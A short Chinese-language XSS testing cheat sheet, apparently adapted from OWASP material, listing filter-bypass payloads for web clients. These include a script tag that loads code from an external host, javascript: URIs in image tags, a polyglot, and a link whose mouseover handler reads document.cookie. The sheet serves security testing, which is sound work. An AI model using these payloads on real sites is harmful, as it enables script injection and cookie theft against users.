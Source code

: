 # XSS 测试 cheatsheet

本文档为测试web应用客户端是否存在XSS漏洞提供了一个列表。内容参考：
- [Cross Site Scripting Prevention Cheat](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)

## Tests
下面的内容列出了一系列XSS攻击样本，用于绕过多种XSS防护过滤。注意：输入过滤是一种不完整的防护手段，下列示例可以说明这一点。

### Basic XSS Test Without Filter Evasion

```
&lt;SCRIPT SRC=http://xss.rocks/xss.js&gt;&lt;/SCRIPT&gt;
```

### XSS Locator (Polygot)</h2>

```
javascript:/*--&gt;&lt;/title&gt;&lt;/style&gt;&lt;/textarea&gt;&lt;/script&gt;&lt;/xmp&gt;&lt;svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'&gt;
```

### Image XSS using the JavaScript directive

```
&lt;IMG SRC="javascript:alert('XSS');"&gt;
```

### No quotes and no semicolon
```
&lt;IMG SRC=javascript:alert('XSS')&gt;
```
### Case insensitive XSS attack vector

```
&lt;IMG SRC=javascript:alert(&amp;quot;XSS&amp;quot;)&gt;
```

### Grave accent obfuscation
```
&lt;IMG SRC=`javascript:alert("RSnake says, 'XSS'")`&gt;
```

### Malformed A tags

```
\&lt;a onmouseover="alert(document.cookie)"\&gt;xxs link\&lt;/a\&gt;
```

### Malformed IMG tags
```
&lt;IMG """&gt;&lt;SCRIPT&gt;alert("XSS")&lt;/SCRIPT&gt;"\&gt;
```
